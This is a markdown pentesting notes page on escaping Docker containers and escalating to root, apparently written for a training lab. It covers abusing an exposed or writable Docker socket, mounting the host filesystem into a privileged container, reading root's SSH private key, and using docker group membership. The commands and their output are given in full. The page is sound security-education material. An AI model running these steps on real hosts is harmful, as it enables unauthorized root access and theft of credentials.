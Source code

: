 ```yaml
---
title: Pentesting docker
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - cloud
  - docker
  - containers
---
```


# Pentesting docker 

See [docker](../../docker.md).

https://www.panoptica.app/research/7-ways-to-escape-a-container

## Docker Shared Directories

When using Docker, shared directories (volume mounts) can bridge the gap between the host system and the container's filesystem. Shared directories can be mounted as read-only or read-write, depending on specific administrator requirements.

Enumerate  additional (non-standard) directories on the docker’s filesystem: 

```shell-session
ls -la ~ 
```

Note, for instance if you have access to a .ssh folder.

## Docker sockets

A Docker socket or Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon. It acts as a bridge, facilitating communication between the Docker client and the Docker daemon. When we issue a command through the Docker CLI, the Docker client sends the command to the Docker socket, and the Docker daemon, in turn, processes the command and carries out the requested actions.

By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources. This remote API access expands the possibilities for distributed Docker setups and remote management scenarios. However, depending on the configuration, there are many ways where automated processes or tasks can be stored. Those files can contain very useful information for us that we can use to escape the Docker container.

```shell-session
ls -al ~/app
```

Output:

```shell-session
total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.soc
```


From here on, we can use the `docker` binary to interact with the socket and enumerate what docker containers are already running.

```shell-session
docker -H unix:///app/docker.sock ps
```

### Abusing mapping to root directory
We can create our own Docker container that maps the host’s root directory (`/`) to the `/hostsystem` directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the `main_app` Docker image.

```shell-session
docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

# And check running processes:
docker -H unix:///app/docker.sock ps
```

Output:

```shell-session
CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

Now, we can log in to the new privileged Docker container with the ID `7ae3bcc818af` and navigate to the `/hostsystem`.

```shell-session
docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash
```

Output:

```shell-session
root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```


From there, we can again try to grab the private SSH key and log in as root or as any other user on the system with a private SSH key in its folder.


### Abuse writable docker socket

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in /var/run/docker.sock. However, the location can be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

```shell-session
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

ls -la
```


## Docker Group

To gain root privileges through Docker, the user we are logged in with must be in the `docker` group.

```shell-session
id
```

Output:

```shell-session
uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root.

To see which images exist and which we can access, we can use the following command:

```shell-session
docker image ls
```


